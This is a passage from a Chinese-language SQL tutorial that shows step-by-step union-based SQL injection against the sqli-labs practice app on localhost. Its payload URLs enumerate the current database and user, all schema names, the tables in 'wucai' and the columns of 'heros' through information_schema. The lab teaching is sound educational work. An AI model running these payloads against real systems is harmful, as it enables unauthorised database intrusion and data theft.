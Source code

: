 正确：

```
http://localhost/sqli-labs-master/Less-1/?id=1' order by 3 --+
```

### 获取当前数据库和用户信息

下面我们通过SQL注入来获取想要的信息，比如想要获取当前数据库和用户信息。

这里我们使用UNION操作符。在MySQL中，UNION操作符前后两个SELECT语句的查询结构必须一致。刚才我们已经通过实验，判断出查询语句的字段个数为3，因此在构造UNION后面的查询语句时也需要查询3个字段。这里我们可以使用：`SELECT 1,database(),user()`，也就是使用默认值1来作为第一个字段，整个URL为：`http://localhost/sqli-labs-master/Less-1/?id=' union select 1,database(),user() --+`。

![](https://static001.geekbang.org/resource/image/a1/cd/a186b5758d80983b4d34818169b719cd.png?wh=1241%2A350)  
页面中显示的`security`即为当前的数据库名称，`root@localhost`为当前的用户信息。

### 获取MySQL中的所有数据库名称

我们还想知道当前MySQL中所有的数据库名称都有哪些，数据库名称数量肯定会大于1，因此这里我们需要使用`GROUP_CONCAT`函数，这个函数可以将`GROUP BY`产生的同一个分组中的值连接起来，并以字符串形式返回。

具体使用如下：

```
http://localhost/sqli-labs-master/Less-1/?id=' union select 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata)--+
```

这样我们就可以把多个数据库名称拼接在一起，作为字段3返回给页面。

![](https://static001.geekbang.org/resource/image/7e/a7/7e1aa81c623e28c87666cfdd290462a7.png?wh=1728%2A142%3Fwh%3D1728%2A142)  
你能看到这里我使用到了MySQL中的`information_schema`数据库，这个数据库是MySQL自带的数据库，用来存储数据库的基本信息，比如数据库名称、数据表名称、列的数据类型和访问权限等。我们可以通过访问`information_schema`数据库，获得更多数据库的信息。

### 查询wucai数据库中所有数据表

在上面的实验中，我们已经得到了MySQL中所有的数据库名称，这里我们能看到wucai这个数据库。如果我们想要看wucai这个数据库中都有哪些数据表，可以使用：

```
http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='wucai') --+
```

这里我们同样将数据表名称使用GROUP\_CONCAT函数拼接起来，作为字段3进行返回。

![](https://static001.geekbang.org/resource/image/7e/a7/7e1aa81c623e28c87666cfdd290462a7.png?wh=1728%2A142%3Fwh%3D1728%2A142)

### 查询heros数据表中所有字段名称

在上面的实验中，我们从wucai数据库中找到了熟悉的数据表heros，现在就来通过information\_schema来查询下heros数据表都有哪些字段，使用下面的命令即可：

```
http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='heros') --+
```
